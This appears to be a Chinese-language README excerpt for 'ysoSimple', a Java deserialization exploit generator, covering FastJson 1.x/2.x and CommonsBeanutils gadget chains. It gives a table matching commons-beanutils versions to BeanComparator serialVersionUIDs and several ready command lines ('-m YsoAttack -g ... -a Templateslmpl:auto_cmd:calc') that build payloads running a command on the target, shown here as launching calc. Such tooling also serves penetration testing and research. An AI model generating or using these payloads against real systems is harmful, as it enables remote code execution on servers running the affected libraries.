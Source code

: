 #### FastJson系列

##### FastJson1(1.x)

描述：FastJson1.x系列的利用链，通过JSONArray的toString方法来触发getter利用链

工具：支持getter系列的TemplatesImpl/TemplatesImpl0/SignedObject/LdapAttribute打法

```java
-m YsoAttack -g FastJson1 -a "Templateslmpl:auto_cmd:calc"
```

##### FastJson2(2.x)

描述：FastJson2系列的利用链，通过JSONArray的toString方法来触发getter利用链

工具：支持getter系列的TemplatesImpl/TemplatesImpl0/SignedObject/LdapAttribute打法

```bash
-m YsoAttack -g FastJson2 -a "Templateslmpl:auto_cmd:calc"
```

#### CommonsBeanutils系列

CommonsBeanutils利用链很常见但是比较麻烦的是，CB依赖版本不同时BeanComparator类的suid不同。ysoSimple支持以下几种CB依赖的利用：

|ysoSimple利用链|需要的依赖|BeanComparator suid|备注|
| -----------------------| ------------------------------------------| -----------------------| -------------------------------------------|
|CommonsBeanutils2|commons-logging，commons-beanutils:1.9.2|-2044202215314119608L|1.9 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_183|commons-logging，commons-beanutils:1.8.3|-3490850999041592962L|1.7 和 1.8 类的BeanComparator类suid都一样|
|CommonsBeanutils2_16|commons-logging，commons-beanutils:1.6|2573799559215537819L|1.6 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_15|commons-logging，commons-beanutils:1.5|5123381023979609048L|1.5 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_110|commons-logging，commons-beanutils:1.10.0|1L|1.10系列的BeanComparator类suid都一样|

##### CommonsBeanutils2(1.9.2)

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_183(1.8.3)

```bash
-m YsoAttack -g CommonsBeanutils2_183 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_16(1.6)

```bash
-m YsoAttack -g CommonsBeanutils2_16 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_15(1.5)

```bash
-m YsoAttack -g CommonsBeanutils2_15 -a "Templateslmpl:auto_cmd:calc"
```
